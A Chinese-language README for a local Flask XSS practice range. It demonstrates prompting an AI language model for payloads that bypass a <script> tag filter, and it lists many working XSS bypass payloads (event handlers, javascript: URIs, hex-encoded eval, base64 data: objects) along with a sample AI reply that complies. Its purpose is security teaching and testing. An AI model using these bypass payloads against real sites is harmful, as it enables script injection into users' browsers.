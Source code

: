 # DAST 演示靶场
本项目旨在演示利用 AI 大语言模型生成多样化、可绕过简单过滤的攻击载荷，以进行动态应用程序安全测试（DAST）。

## 目的
演示 AI 在 Web 渗透测试中，特别是 XSS (跨站脚本) 漏洞利用方面，生成高级、多样化攻击载荷的能力。

## 环境准备与运行步骤
1.  **安装依赖**
    确保您已安装 Python 3。然后通过 `pip` 安装项目所需的库：
    ```bash
    pip install -r requirements.txt
    ```

2.  **启动靶场**
    运行 Flask 应用来启动漏洞靶场：
    ```bash
    python app.py
    ```
    服务启动后，靶场将在以下地址运行：
    [http://127.0.0.1:5001](http://127.0.0.1:5001)
    

## 演示流程
1.  **访问靶场**
    在您的浏览器中打开 [http://127.0.0.1:5001](http://127.0.0.1:5001)。您会看到一个简单的输入框。
2.  **测试基础过滤器**
    *   在输入框中输入经典的 XSS 载荷：`<script>alert(1)</script>`。
    *   点击“提交”。
    *   **结果**：页面会显示 `[检测到并过滤了script标签]` 或类似提示，并且不会有弹窗出现。这证明了后端存在一个简单的、针对 `<script>` 标签的过滤器。
    
3.  **利用 AI 生成绕过载荷**
    *   打开一个 AI 大语言模型交互界面（例如 Copilot Chat、ChatGPT 等）。
    *   输入以下 Prompt:
        ```markdown
        你是一名Web渗透测试专家。我正在测试一个XSS漏洞，但目标对`<script>`标签进行了过滤。请生成5个可以绕过此过滤的XSS Payload，使用不同的编码和事件处理器。
        ```
    *   AI 模型会生成多个不依赖 `<script>` 标签的 XSS 载荷，例如：
        *   `<img src=x onerror=alert('XSS')>`
        *   `<svg onload=alert(1)>`
        *   `<body onload=alert('XSS')>`
        *   `<iframe src="javascript:alert('XSS');"></iframe>`
        *   `<a href="javascript:alert(1)">点击我</a>`
    *   当目标过滤了`<script>`标签时，我们可以使用多种替代技术来触发XSS漏洞。以下是5种不同的绕过方法，涵盖HTML事件处理器、伪协议、编码混淆等技术：
        *   **IMG标签+onerror事件（基础绕过）**
        ```html
        <img src=x onerror=alert(document.domain)>
        ```
        *   **SVG标签+onload事件（利用矢量图形）**
        ```html
        <svg onload=alert(1)>
        ```
        *    **JavaScript伪协议（href属性利用）**
        ```html
        <a href="javascript:alert('XSS')">Click me</a>
        ```
            或针对没有用户交互的情况：
        ```html
        <iframe src=javascript:alert`1`></iframe>
        ```
        *    **HTML实体编码+unicode混淆（高级编码绕过）**
        ```html
        <div onclick="alert('XSS')">Click this div</div>
        ```
            十六进制编码变体：
        ```html
        <div onclick="eval('\x61\x6c\x65\x72\x74\x28\x31\x29')">Hover me</div>
        ```
        *    **利用HTML5新标签/属性（data-*属性绕过）**
        ```html
        <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
        ```
            或使用details标签：
        ```html
        <details open ontoggle=alert(1)>
        ```
        *    **额外技巧**：
        - 如果空格被过滤，可以用`/`或换行符代替：
        ```html
        <img/src=x%0aonerror=alert(1)>
        ```
        - 使用反引号代替括号：
        ```html
        <svg onload=alert`1`>
        ```
        每种方法适用于不同的过滤场景，实际测试时需要根据目标的具体防御机制进行调整组合。建议先使用简单的payload测试基本过滤规则，再逐步尝试更复杂的绕过技术。
        
4.  **验证绕过**
    *   从 AI 生成的载荷中复制任意一个（例如 `<img src=x onerror=alert('XSS')>`）。
    *   将其粘贴到靶场的输入框中，然后点击“提交”。
    *   **结果**：浏览器成功弹出一个警告框。这证明了 AI 生成的载荷成功绕过了目标站点的防御机制。

## 讲解
“AI 不仅知道漏洞的存在，更知道如何创造性地绕过现有的防御措施。它不再仅仅是一个知识库，而是我们进行高级安全测试的‘智能武器库’。”
